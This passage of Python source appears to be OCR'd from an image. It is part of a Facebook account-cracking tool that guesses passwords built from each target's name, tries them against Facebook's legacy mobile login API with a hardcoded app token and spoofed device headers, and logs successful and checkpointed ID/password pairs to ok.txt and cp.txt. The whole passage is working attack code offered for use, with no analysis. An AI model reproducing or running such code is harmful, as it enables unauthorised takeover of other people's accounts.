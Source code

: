 												else:

													pass6 = name.lower().split(' ')[1] + '12'

													api = 'https://b-api.facebook.com/method/auth.login'

													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

													data = requests.get(api, params=params, headers=headers_)

													if "access_token" in data.text and "EAAA" in data.text:

														print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass6+"\033[0;97m")

														ok = open("ok.txt", "a")

														ok.write(uid+"|"+pass6+"\n")

														ok.close()

														oks.append(uid+pass6)

													else:

														if "www.facebook.com" in data.json()['error_msg']:

															print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass6+"\033[0;97m")

															cp = open("cp.txt", "a")

															cp.write(uid+"|"+pass6+"\n")

															cp.close()

															cps.append(uid+pass6)

														else:

															pass7 = name.lower()

															api = 'https://b-api.facebook.com/method/auth.login'

															params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass7, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

															headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

															data = requests.get(api, params=params, headers=headers_)

															if "access_token" in data.text and "EAAA" in data.text:

																print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass7+"\033[0;97m")
